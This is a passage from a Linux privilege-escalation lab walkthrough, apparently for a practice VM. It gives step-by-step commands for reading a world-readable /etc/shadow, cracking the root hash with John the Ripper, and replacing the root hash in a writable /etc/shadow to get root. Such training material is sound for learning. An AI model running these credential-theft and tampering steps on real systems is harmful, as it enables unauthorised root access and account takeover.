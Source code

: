 ```bash
/tmp/rootbash -p
```

## 3. Weak File Permissions - Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

```bash
ls -l /etc/shadow
```

View the contents of the /etc/shadow file:

```bash
cat /etc/shadow
```

Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Switch to the root user, using the cracked password:

```bash
su root
```

## 4. Weak File Permissions - Writable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:

```bash
ls -l /etc/shadow
```

Generate a new password hash with a password of your choice:

```bash
mkpasswd -m sha-512 newpasswordhere
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

```bash
su root
```
